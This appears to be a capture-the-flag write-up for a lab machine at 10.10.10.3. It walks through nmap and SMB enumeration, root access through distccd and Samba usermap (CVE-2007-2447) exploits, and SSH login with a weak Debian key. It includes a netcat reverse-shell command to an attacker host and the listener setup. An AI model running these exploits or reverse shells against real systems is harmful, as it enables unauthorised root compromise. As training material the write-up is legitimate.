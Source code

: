 ## Enumeration
- Running nmap we found `nmap -p21,22,139,445,3632 -A -T4 -Pn 10.10.10.3 `![](attachment/a22968d38b97e0e917180e83bf8141e8.png)
 - Found exploits for distccd and for ftp 
### SMB
- using `smbclient -L \\10.10.10.3\\` we found smb folders:![](attachment/71f095ac4b07c23e36b64635370e3a2e.png)
- ADMIN,IPC and opt are password protected
## Exploiting
### Distccd(3632)
- Trying to exploit distccd we gain root access:https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
- `python2 distccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.16.4 1403 -e /bin/sh"`
- We listen using netcat `nc -lvp 1403` ![](attachment/39eb4cc50e4d410bf92ac99336146294.png)
- After gaining access `updatedb` and `locate user.txt` and to collect flag
- then navigate to /root and use `ls -la` to list all files:![](attachment/b2a7a79f71026cb708e447d76356430b.png)
- we find the ssh key in `.ssh`![](attachment/04e55e451173275c154f35ca79c028ed.png)
- we use https://github.com/g0tmi1k/debian-ssh and use `tar jxf debian_ssh_rsa_2048_x86.tar.bz2`
- use `grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7b wkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub` to find matching public key:`57c3115d77c56390332dc5c49978627a-5429.pub`
- Then ssh into root with `ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@10.10.10.3`
### Using samba usermap(139)
- using samba usermap https://github.com/amriunix/CVE-2007-2447
- `nc -lnvp 443 ` listening using netcat
- `python3 usermap_script.py 10.10.10.3 139 10.10.16.4 443` to send payload and we get a root shell